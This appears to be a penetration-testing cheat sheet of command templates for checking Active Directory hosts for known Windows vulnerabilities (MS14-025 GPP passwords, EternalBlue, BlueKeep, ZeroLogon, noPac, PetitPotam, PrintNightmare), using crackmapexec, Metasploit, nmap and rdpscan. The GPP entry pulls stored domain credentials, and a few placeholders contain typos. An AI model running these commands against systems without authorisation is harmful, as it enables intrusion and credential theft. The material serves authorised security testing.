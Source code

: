 # CVE

## Check & Exploit GPP SYSVOL (MS14-025) - cme

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M gpp_password
```

= domain-controller: $DOMAIN_CONTROLLER
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check & Exloit GPP SYSVOL (MS14-025) - msf

```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## Check SMB vulnerabilities

```
nmap -Pn --script smb-vuln* -p139,445 <target>
```

= target: ./targets/domain/computers.txt

## Check Eternal Blue (MS17-010) - cme

```
cme smb <target> -M ms17
```

= target: ./targets/domain/computers.txt

## Check BlueKeep (CVE-2019-0708)

```
rdpscan <target>
```

= target: ./targets/domain/computers.txt

## Check Eternal Blue (MS17-010) - nmap

```
nmap -Pn --script smb-vuln-ms17-010 -p139,445 <target>
```

= target: ./targets/domain/computers.txt

## Check Zero Logon (CVE-2020-1472)

```
cme smb <domain-controller> -M zerologon
```

= domain-controller: $DOMAIN_CONTROLLER

## Check noPac (CVE-2021-42278 and CVE-2021-42287)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M nopac
```

= domain-controller: DOMAIN_CONTROLLER
= user: ${USER}
= password: ${PASSWORD}
= domain: ${DOMAIN}

## Check PetitPotam (CVE-2021-36942)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M petitpotam
```

= domain-controller: $DOMAIN_CONTROLLER
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check Print Nightmare (CVE-2021-34527)

```
docker run -it itwasalladream -u <user> -p '<password>' -d domain> <target>
```

= domain-controller: $DOMAIN_CONTROLLER
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: ./targets/domain/computers.txt
